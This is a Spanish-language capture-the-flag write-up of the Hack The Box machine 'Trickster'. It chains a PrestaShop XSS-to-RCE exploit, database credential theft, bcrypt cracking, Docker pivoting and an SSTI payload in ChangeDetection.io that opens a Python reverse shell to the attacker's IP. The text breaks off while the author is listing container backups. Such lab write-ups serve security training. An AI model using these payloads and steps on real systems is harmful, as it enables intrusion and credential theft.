

# Trickster

`Trickster` es una máquina Linux de dificultad media que presenta una aplicación PrestaShop vulnerable a [CVE-2024-34716](https://nvd.nist.gov/vuln/detail/CVE-2024-34716). La explotación de esta vulnerabilidad otorga acceso al servidor remoto como usuario `www-data`. Una enumeración más detallada revela archivos de configuración de PrestaShop que contienen credenciales de base de datos, lo que nos permite volcar y descifrar hashes de contraseña para obtener la contraseña del usuario `james`. Luego podemos ingresar al servidor mediante SSH como `james`. También está presente un contenedor Docker que ejecuta ChangeDetection.io, vulnerable a [CVE-2024-32651](https://nvd.nist.gov/vuln/detail/CVE-2024-32651), que puede explotarse para obtener un shell raíz dentro del contenedor. Dentro del contenedor, los archivos de respaldo de ChangeDetection.io revelan la contraseña del usuario `adam`, que permite el acceso SSH como `adam`. Finalmente, la escalada de privilegios a root se logra explotando [CVE-2023-47268](https://nvd.nist.gov/vuln/detail/CVE-2023-47268) en la herramienta PrusaSlicer.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con `Nmap` para ver los puertos que están expuestos en la máquina **`Trickster`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.11.34 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 23:44 CET
Nmap scan report for 10.10.11.34
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.75 seconds
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.34
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato `oN` y `oX` para posteriormente trabajar con ellos. Verificamos que al parecer se trata de una máquina Ubuntu que dispone de una página de `Apache`y el servicio de SSH.

```bash
❯ nmap -sCV -p22,80 10.10.11.34 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 23:45 CET
Nmap scan report for trickster.htb (10.10.11.34)
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:01:0e:7b:b4:da:b7:2f:bb:2f:d3:a3:8c:a6:6d:87 (ECDSA)
|_  256 90:c6:f3:d8:3f:96:99:94:69:fe:d3:72:cb:fe:6c:c5 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.52 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: Host: _; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   106.23 ms 10.10.16.1
2   32.34 ms  trickster.htb (10.10.11.34)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.14 seconds
```

Procederemos a transformar el archivo generado `targetedXML` para transformar el `XML` en un archivo `HTML` para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos en nuestro archivo `/etc/hosts` la siguiente entrada.

```bash
❯ cat /etc/hosts | grep 10.10.11.34
10.10.11.34 trickster.htb
```

## Web Enumeration

Accederemos a [http://trickster.htb](http://trickster.htb), haciendo **hovering** sobre los enlaces, visualizamos que hay uno de ellos que nos lleva a un subdominio de la página llamado `show.trickster.htb`.

<figure><figcaption></figcaption></figure>

Añadiremos esta nueva entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep 10.10.11.34
10.10.11.34 trickster.htb shop.trickster.htb
```

Accederemos a [http://shop.trickster.htb](http://shop.trickster.htb) y nos encontramos con la siguiente página web, de una tienda de ropa.

<figure><figcaption></figcaption></figure>

Realizarmeos una enumeración del sitio web a través de la herramienta de `dirsearch`. En el resultado obtenido, nos encontramos que al parecer está una carpeta de `/.git/` expuesta.

```bash
❯ dirsearch -u 'http://shop.trickster.htb/' -i 200 -t 50 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Trickster/Trickster/content/reports/http_shop.trickster.htb/__25-01-24_23-48-51.txt

Target: http://shop.trickster.htb/

[23:48:51] Starting: 
[23:49:03] 200 -   20B  - /.git/COMMIT_EDITMSG
[23:49:03] 200 -  246KB - /.git/index
[23:49:04] 200 -   28B  - /.git/HEAD
[23:49:04] 200 -  112B  - /.git/config
[23:49:05] 200 -  413B  - /.git/branches/
[23:49:06] 200 -  240B  - /.git/info/exclude
[23:49:04] 200 -   73B  - /.git/description
[23:49:07] 200 -  163B  - /.git/logs/HEAD
[23:49:08] 200 -  460B  - /.git/info/
[23:49:09] 200 -  491B  - /.git/logs/
[23:49:10] 200 -  462B  - /.git/refs/
[23:49:11] 200 -  613B  - /.git/
```

### Downloading Git Folder disclosure (GitHack)

Accederemos a [http://shop.trickster.htb/.git/](http://shop.trickster.htb/.git/) para verificar si disponemos del acceso correctamente.

<figure><figcaption></figcaption></figure>

Accediendo a un directorio de **Logs**, nos encontramos con el siguiente archivo el cual mencionan que se realizó un Update del panel de Administración.

<figure><figcaption></figcaption></figure>

A través de la herramienta de `GitHack`,  nos descargaremos el contenido de la carpeta `/.git/` en nuestro equipo local. En el resultado obtenido, obtenemos el nombre de un directorio que empieza por admin.

```bash
❯ python3 /opt/GitHack/GitHack.py http://shop.trickster.htb/.git/ 2>/dev/null
[+] Download and parse index file ...

...[snip]...

❯ ls -l
drwxrwxr-x kali kali 4.0 KB Fri Jan 24 23:49:55 2025  admin634ewutrx1jgitlooaj
.rw-rw-r-- kali kali 1.3 KB Fri Jan 24 23:50:10 2025  autoload.php
.rw-rw-r-- kali kali 2.4 KB Fri Jan 24 23:50:10 2025  error500.html
.rw-rw-r-- kali kali 1.1 KB Fri Jan 24 23:50:10 2025  index.php
.rw-rw-r-- kali kali 1.2 KB Fri Jan 24 23:50:10 2025  init.php
.rw-rw-r-- kali kali 4.9 KB Fri Jan 24 23:49:52 2025  INSTALL.txt
.rw-rw-r-- kali kali 522 B  Fri Jan 24 23:49:52 2025  Install_PrestaShop.html
.rw-rw-r-- kali kali 180 KB Fri Jan 24 23:49:52 2025  LICENSES
.rw-rw-r-- kali kali 863 B  Fri Jan 24 23:49:52 2025  Makefile
```

Si probamos de acceder a [http://shop.trickster.htb/admin634ewutrx1jgitlooaj](http://shop.trickster.htb/admin634ewutrx1jgitlooaj), nos encontramos con el siguiente panel de inicio de sesión. También se nos indica la versión de `PrestaShop`.


PrestaShop es una plataforma gratuita de código abierto diseñada específicamente para crear y administrar comercios electrónicos. En concreto, Prestashop es un CMS (Content Management System), es decir, un sistema de gestión de contenidos web como lo son, por ejemplo, WordPress, Joomla o Magento


<figure><figcaption></figcaption></figure>

## Initial Foothold

### PrestaShop Exploitation - XSS to RCE (CVE-2024-34716)

Realizando una búsqueda por internet de las vulnerabilidades de esta versión de `PrestaShop` nos encontramos con el siguiente repositorio en el cual se aprovecha del CVE original que era un XSS para convertirlo en un RCE y obtener acceso al equipo.



Nos descargaremos el repositorio de GitHub del exploit e instalaremos los requisitos.

```bash
❯ git clone https://github.com/aelmokhtar/CVE-2024-34716; cd CVE-2024-34716
Clonando en 'CVE-2024-34716'...
remote: Enumerating objects: 60, done.
remote: Counting objects: 100% (60/60), done.
remote: Compressing objects: 100% (42/42), done.
remote: Total 60 (delta 30), reused 34 (delta 13), pack-reused 0 (from 0)
Recibiendo objetos: 100% (60/60), 6.71 MiB | 18.51 MiB/s, listo.
Resolviendo deltas: 100% (30/30), listo.

❯ pip install -r requirements.txt
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Defaulting to user installation because normal site-packages is not writeable
Requirement already satisfied: argparse in /usr/lib/python2.7 (from -r requirements.txt (line 1)) (1.2.1)
Requirement already satisfied: beautifulsoup4 in /usr/local/lib/python2.7/dist-packages (from -r requirements.txt (line 2)) (4.7.1)
Requirement already satisfied: requests in /usr/local/lib/python2.7/dist-packages (from -r requirements.txt (line 3)) (2.21.0)
Requirement already satisfied: soupsieve>=1.2 in /usr/local/lib/python2.7/dist-packages (from beautifulsoup4->-r requirements.txt (line 2)) (1.9.6)
Requirement already satisfied: urllib3<1.25,>=1.21.1 in /usr/local/lib/python2.7/dist-packages (from requests->-r requirements.txt (line 3)) (1.24.3)
Requirement already satisfied: chardet<3.1.0,>=3.0.2 in /usr/local/lib/python2.7/dist-packages (from requests->-r requirements.txt (line 3)) (3.0.4)
Requirement already satisfied: certifi>=2017.4.17 in /usr/local/lib/python2.7/dist-packages (from requests->-r requirements.txt (line 3)) (2021.10.8)
Requirement already satisfied: idna<2.9,>=2.5 in /usr/local/lib/python2.7/dist-packages (from requests->-r requirements.txt (line 3)) (2.8)
Requirement already satisfied: backports.functools-lru-cache; python_version < "3" in /usr/local/lib/python2.7/dist-packages (from soupsieve>=1.2->beautifulsoup4->-r requirements.txt (line 2)) (1.6.6)
```

Lanzaremos el exploit sobre la URL vulnerable de `PrestaShop`, le indicaremos un correo falso, nuestra dirección IP y el `admin-path` que encontramos anteriormente.

Al ejecutar el ataque, logramos obtener acceso al equipo como usuario `www-data`.

```bash
❯ python3 exploit.py --url http://shop.trickster.htb --email 'gzzcoo@trickster.htb' --local-ip 10.10.16.5 --admin-path admin634ewutrx1jgitlooaj
[X] Starting exploit with:
	Url: http://shop.trickster.htb
	Email: gzzcoo@trickster.htb
	Local IP: 10.10.16.5
	Admin Path: admin634ewutrx1jgitlooaj
[X] Ncat is now listening on port 12345. Press Ctrl+C to terminate.
Serving at http.Server on port 5000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:12345
Ncat: Listening on 0.0.0.0:12345
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
Request: GET /ps_next_8_theme_malicious.zip HTTP/1.1
Response: 200 -
10.10.11.34 - - [25/Jan/2025 00:03:18] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
Ncat: Connection from 10.10.11.34:58996.
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 23:03:31 up 20 min,  0 users,  load average: 0.01, 0.09, 0.19
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Revisando los diferentes archivos de configuración, nos encontramos con las credenciales de acceso a la base de datos que utiliza `PrestaShop`.

```bash
www-data@trickster:~/prestashop/app/config$ cat parameters.php 
<?php return array (
  'parameters' => 
  array (
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => 'prest@shop_o',
```

## Initial Access

### Enumerating Database

Probaremos de autenticarnos al MySQL con las credenciales obtenidas, al acceder sin problemas logamos visualizar las bases de datos existentes y las tablas.

```bash
www-data@trickster:~/prestashop/app/config$ mysql -u ps_user -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 793
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| prestashop         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> USE prestashop;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [prestashop]> SHOW TABLES;
+-------------------------------------------------+
| Tables_in_prestashop                            |
+-------------------------------------------------+
...[snip]...
| ps_employee                                     |
...[snip]...
```

Revisaremos el contenido de la tabla `ps_employee`, enla cual aparecen las contraseñas en formato hash.

```bash
MariaDB [prestashop]> SELECT * FROM ps_employee;
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
| id_employee | id_profile | id_lang | lastname | firstname | email               | passwd                                                       | last_passwd_gen     | stats_date_from | stats_date_to | stats_compare_from | stats_compare_to | stats_compare_option | preselect_date_range | bo_color | bo_theme | bo_css    | default_tab | bo_width | bo_menu | active | optin | id_last_order | id_last_customer_message | id_last_customer | last_connection_date | reset_password_token | reset_password_validity | has_enabled_gravatar |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
|           1 |          1 |       1 | Store    | Trickster | admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C | 2024-05-25 13:10:20 | 2024-04-25      | 2024-05-25    | 0000-00-00         | 0000-00-00       |                    1 | NULL                 | NULL     | default  | theme.css |           1 |        0 |       1 |      1 |  NULL |             5 |                        0 |                0 | 2025-01-24           | NULL                 | 0000-00-00 00:00:00     |                    0 |
|           2 |          2 |       0 | james    | james     | james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm | 2024-09-09 13:22:42 | NULL            | NULL          | NULL               | NULL             |                    1 | NULL                 | NULL     | NULL     | NULL      |           0 |        0 |       1 |      0 |  NULL |             0 |                        0 |                0 | NULL                 | NULL                 | NULL                    |                    0 |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
2 rows in set (0.000 sec)
```

### Cracking Hashes

Analizaremos el tipo de hash del cual se trata, y a través de `hashcat` procederemos a intentar crackear el hash. Obtenemos la contraseña del usuario `james` en texto plano.

```bash
❯ hashid '$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm'
Analyzing '$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 

❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...[snip]...

$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever
```

### Accessing SSH with password cracked

Trataremos de acceder mediante SSH con las credenciales obtenidas del usuario`james`. Verificamos que logramos obtener el acceso y visualizar la flag de **user.txt**.

```bash
❯ ssh james@trickster.htb
james@trickster.htb's password: 
Last login: Thu Sep 26 11:13:01 2024 from 10.10.14.41
james@trickster:~$ ls
user.txt
james@trickster:~$ cat user.txt 
c4dfa6a95***********************
```

## Lateral Movement

Revisaremos si disponemos de algún puerto interno inusual. En este caso, vemos un puerto 41187, que analizamos y no logramos obtener ningún tipo de información interesante.

```bash
james@trickster:/opt/PrusaSlicer$ netstat -ano | grep LISTEN
tcp        0      0 127.0.0.1:41187         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
```

Revisando las tarjetas de red del equipo, nos fijamos que tiene una tarjeta de red para `Docker`.


Docker es un software de código abierto utilizado para desplegar aplicaciones dentro de contenedores virtuales. La contenerización permite que varias aplicaciones funcionen en diferentes entornos complejos. Por ejemplo, Docker permite ejecutar el sistema de gestión de contenidos WordPress en sistemas Windows, Linux y macOS sin ningún problema.


```bash
james@trickster:/tmp$ ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:76:49:9c:dc  txqueuelen 0  (Ethernet)
        RX packets 23  bytes 1372 (1.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3  bytes 126 (126.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.34  netmask 255.255.254.0  broadcast 10.10.11.255
        ether 00:50:56:94:e5:6c  txqueuelen 1000  (Ethernet)
        RX packets 101550  bytes 15784782 (15.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 91338  bytes 36801649 (36.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 141463  bytes 203455605 (203.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 141463  bytes 203455605 (203.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth6d1f8aa: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        ether 5a:0c:1d:90:89:3a  txqueuelen 0  (Ethernet)
        RX packets 5  bytes 354 (354.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1  bytes 42 (42.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

### Discovering new hosts and ports (fscan)

A través de la herramienta de `fscan`, trataremos de descubrir nuevos hosts de una red y sus puertos expuestos, similar a Nmap pero sirve más para un escaneo inicial rápido y efectivo. No hace falta que sea instalado a diferencia de Nmap.



Nos descargaremos el binario de `fscan`, levantaremos un servidor web para compartir el binario.

```bash
❯ ls -l fscan
.rwxrwxr-x kali kali 6.8 MB Sat May 11 11:04:09 2024  fscan

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo víctima, nos descargaremos el binario en el equipo y le daremos permisos de ejecución.

```bash
james@trickster:/tmp$ wget 10.10.16.5/fscan
--2025-01-24 23:28:44--  http://10.10.16.5/fscan
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7100304 (6.8M) [application/octet-stream]
Saving to: ‘fscan’

fscan          100%[==============================>]   6.77M  2.87MB/s    in 2.4s    

2025-01-24 23:28:46 (2.87 MB/s) - ‘fscan’ saved [7100304/7100304]

james@trickster:/tmp$ ls -l fscan 
-rw-rw-r-- 1 james james 7100304 May 11  2024 fscan
james@trickster:/tmp$ chmod +x fscan
```

Realizaremos un escaneo de los hosts activos de la red de Docker, en este caso, logramos encontrar un nuevo equipo en la dirección **172.17.0.2**.

```bash
james@trickster:/tmp$ ./fscan -h 172.17.0.0/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.17.0.1      is alive
(icmp) Target 172.17.0.2      is alive
```

Trataremos de enumerar los puertos abiertos del nuevo equipo encontrado, logramos encontrar el puerto 5000.

```bash
james@trickster:/tmp$ ./fscan -h 172.17.0.2 -p 1-65535

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
172.17.0.2:5000 open
[*] alive ports len is: 1
start vulscan
[*] WebTitle http://172.17.0.2:5000    code:302 len:213    title:Redirecting... 跳转url: http://172.17.0.2:5000/login?next=/
[*] WebTitle http://172.17.0.2:5000/login?next=/ code:200 len:12029  title:Change Detection
已完成 1/1
[*] 扫描结束,耗时: 32.150710904s
```

### SSH Port Forwarding

Realizaremos **SSH Port Forwarding** para disponer de acceso al puerto interno desde nuestro equipo local.

```bash
❯ ssh -L 5000:172.17.0.2:5000 james@trickster.htb
james@trickster.htb's password: 
Last login: Fri Jan 24 23:14:03 2025 from 10.10.16.5
```

Accederemos desde nuestro navegador a http://127.0.0.1:8500 y nos lleva a una página de `ChangeDetection`. Ingresaremos las credenciales que disponemos actualmente del usuario `james`. Además, nos aparece la versión de la herramienta.


Changedetection.io es una herramienta avanzada de detección y supervisión de cambios en sitios web que te mantiene informado en tiempo real. Con esta herramienta, puedes rastrear y recibir notificaciones sobre los cambios que se producen en miles de páginas web con facilidad.


<figure><figcaption></figcaption></figure>

### ChangeDetection Exploitation manually - Remote Code Execution \[RCE] (CVE-2024-32651)

Realizando una búsqueda en Internet, nos encontramos con el siguiente `CVE-2024-32651`.




changetection.io es un servicio de detección de cambios de páginas web, seguimiento de sitios web, monitor de reabastecimiento y notificación de código abierto. Hay una inyección de plantilla del lado del servidor (SSTI) en Jinja2 que permite la ejecución remota de comandos en el host del servidor. Los atacantes pueden ejecutar cualquier comando del sistema sin ninguna restricción y podrían usar un shell inverso. El impacto es crítico ya que el atacante puede apoderarse completamente de la máquina servidor. Esto se puede reducir si la detección de cambios está detrás de una página de inicio de sesión, pero la aplicación no lo requiere (no es de forma predeterminada ni obligatorio).


#### Proceso de explotación:

1. **Configuración inicial:**
   * Levantamos un servidor web en nuestro equipo atacante, con un archivo `index.html` básico como contenido inicial.
   * Añadimos nuestro sitio web al panel de ChangeDetection.io para que sea monitoreado por la herramienta.
2. **Aprovechamiento de la vulnerabilidad:**
   * Modificamos el contenido de `index.html` en nuestro servidor para disparar la detección de cambios.
   * Inyectamos un payload malicioso en la sección de notificaciones de la herramienta, diseñado para establecer una Reverse Shell.
3. **Ganar acceso al servidor:**
   * Al activarse la notificación (cuando se detectan los cambios en la página), el servidor ejecutará nuestro payload, permitiéndonos obtener acceso remoto al sistema.

Esta vulnerabilidad destaca por su gravedad, ya que permite a un atacante tomar control completo de la máquina, comprometiendo toda la infraestructura.

**PoC manual**

Añadiremos nuestra página web en la herramienta.

<figure><figcaption></figcaption></figure>

Una vez añadida, deberemos configurar las opciones dándole a la opción de **Edit**.

<figure><figcaption></figcaption></figure>

Especificaremos que realice el chequeo de los cambios de versión de nuestra página web en 30 segundos por ejemplo.

<figure><figcaption></figcaption></figure>

En la sección de **Notifications**, estableceremos las siguientes opciones para que haga una llamada a nuestra página web y el paylaod de la Reverse Shell. Guardaremos los cambios realizados.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'') }}
```

<figure><figcaption></figcaption></figure>

Desde nuestro equipo, dispondremos de un archivo `index.html`, levantaremos un servidor web.&#x20;

```bash
❯ ls -l
.rw-r--r-- root root 618 B Wed Jan 22 12:51:27 2025  index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Nos pondremos en escucha por el puerto especificado en el payload. Realizaremos un par de modificaciones en el archivo de nuestra página hasta que la herramienta de `ChangeDetection` nos lo detecte.

Una vez nos lo detecte, enviará la notificación con el payload y obtendremos acceso al equipo, que en este caso, se trata del equipo de la red de Docker.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.34] 51220
# whoami
whoami
root
# hostname -I
hostname -I
172.17.0.2 
```

### ChangeDetection Exploitation automatic - Remote Code Execution \[RCE] (CVE-2024-32651)&#x20;

Otra de las maneras más sencillas, para realizar la explotación de esta vulnerabilidad, es través del siguiente repositorio. Los otros repositorios que nos encontramos no nos funcionaban correctamente debido a la autenticación al panel de la herramienta, en este nuevo script si nos permite asignar las credenciales de acceso.



```bash
❯ git clone https://github.com/evgeni-semenov/CVE-2024-32651; cd CVE-2024-32651
Clonando en 'CVE-2024-32651'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (13/13), done.
remote: Total 15 (delta 2), reused 0 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (15/15), 7.19 KiB | 7.19 MiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
```

Realizaremos la explotación, le indicaremos la URL donde está la herramienta montada, nuestra dirección IP, el puerto donde estará en escucha y la contraseña del acceso al panel de `ChangeDetection`. Verificamos que a través de este sencillo script, logramos obtener acceso al equipo víctima.

```bash
❯ python3 cve-2024-32651.py --url http://127.0.0.1:5000 --ip 10.10.16.5 --port 444 --password alwaysandforever
Obtained CSRF token: IjI2ZWQ2ZTRkZDJhNmI0ZjhiYzAzZDU3ZjlmNzY3ZmUxNWQ4YzZjZmUi.Z5QtRA.d55yaSsruh29scUFswGxYEAf_yg
Logging in...
[+] Login succesful
Redirect URL: /edit/88e869b2-2f04-4032-bb82-8f53b5b13345?unpause_on_save=1
Final request made.
Spawning shell...
[+] Trying to bind to :: on port 444: Done
[+] Waiting for connections on :::444: Got connection from ::ffff:10.10.11.34 on port 39568
Listening on port 444...
Connection received!
[*] Switching to interactive mode
root@a4b9a36ae7ff:/app# $ hostname -I
hostname -I
172.17.0.2 
```

## Privilege Escalation

### Docker Breakout

Nos encontramos dentro del contenedor de Docker, el cual queremos encontrar alguna vulnerabilidad, configuración para convertirnos en usuario `root`.

Revisando el directorio raíz `/`, nos encontramos con un directorio llamado `datastore`.

```bash
root@a4b9a36ae7ff:/# ls -l
total 64
drwxr-xr-x   1 root root 4096 Jan 25 00:06 app
lrwxrwxrwx   1 root root    7 Apr  8  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Sep 13 12:24 boot
drwxr-xr-x   6 root root 4096 Jan 25 00:06 datastore
```

Mirando dentro del directorio, hay un directorio llamado `Backups` que parece ser bastante intersante revisarlo.

```bash
root@a4b9a36ae7ff:/datastore# ls -l
total 52
drwxr-xr-x 2 root root  4096 Jan 25 00:16 88e869b2-2f04-4032-bb82-8f53b5b13345
drwxr-xr-x 2 root root  4096 Aug 31 08:56 Backups
```

Dentro de esta carpeta, nos encontramos con dos archivos comprmidos de un backup de la herramienta.

```bash
root@a4b9a36ae7ff:/datastore/Backups# ls -l
total 44
